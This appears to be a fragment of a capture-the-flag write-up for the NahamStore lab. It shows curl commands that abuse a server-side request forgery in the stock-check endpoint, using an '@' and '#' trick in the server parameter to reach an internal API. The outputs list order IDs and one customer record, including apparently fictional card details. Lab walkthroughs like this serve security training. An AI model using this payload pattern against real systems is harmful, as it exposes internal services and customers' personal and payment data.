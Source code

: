 **OUTPUT:**

```jsx
{"server":"internal-api.nahamstore.com","endpoints":["\/orders"]}
```

`curl --path-as-is -iskLX $'POST' -H $'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' -H $'X-Requested-With: XMLHttpRequest' -H $'Connection: keep-alive' -b $'token=7d61eb4c782ec1fdfb5bfd19697f8057' --data-binary $'product_id=1&server=stock.nahamstore.thm@internal-api.nahamstore.thm/orders#' $'http://nahamstore.thm/stockcheck'`

```jsx
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Fri, 20 Dec 2024 11:37:45 GMT
Content-Type: text/html; charset=UTF-8
Transfer-Encoding: chunked
Connection: keep-alive
Set-Cookie: session=3de97590eb69ade8968c46100c5daa3e; expires=Fri, 20-Dec-2024 12:37:45 GMT; Max-Age=3600; path=/

[
{"id":"4dbc51716426d49f524e10d4437a5f5a","endpoint":"\/orders\/4dbc51716426d49f524e10d4437a5f5a"},
{"id":"5ae19241b4b55a360e677fdd9084c21c","endpoint":"\/orders\/5ae19241b4b55a360e677fdd9084c21c"},
{"id":"70ac2193c8049fcea7101884fd4ef58e","endpoint":"\/orders\/70ac2193c8049fcea7101884fd4ef58e"}
]
```

`curl --path-as-is -skX $'POST' -H $'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' -H $'X-Requested-With: XMLHttpRequest' -H $'Connection: keep-alive' -b $'token=7d61eb4c782ec1fdfb5bfd19697f8057' --data-binary $'product_id=1&server=stock.nahamstore.thm@internal-api.nahamstore.thm/orders/5ae19241b4b55a360e677fdd9084c21c#' $'http://nahamstore.thm/stockcheck' | jq`

```jsx
{
  "id": "5ae19241b4b55a360e677fdd9084c21c",
  "customer": {
    "id": 2,
    "name": "Jimmy Jones",
    "email": "jd.jones1997@yahoo.com",
    "tel": "501-392-5473",
    "address": {
      "line_1": "3999  Clay Lick Road",
      "city": "Englewood",
      "state": "Colorado",
      "zipcode": "80112"
    },
    "items": [
      {
        "name": "Hoodie + Tee",
        "cost": "25.00"
      }
    ],
    "payment": {
      "type": "MasterCard",
      "number": "5190216301622131",
      "expires": "11/2023",
      "CVV2": "223"
    }
  }
}
```

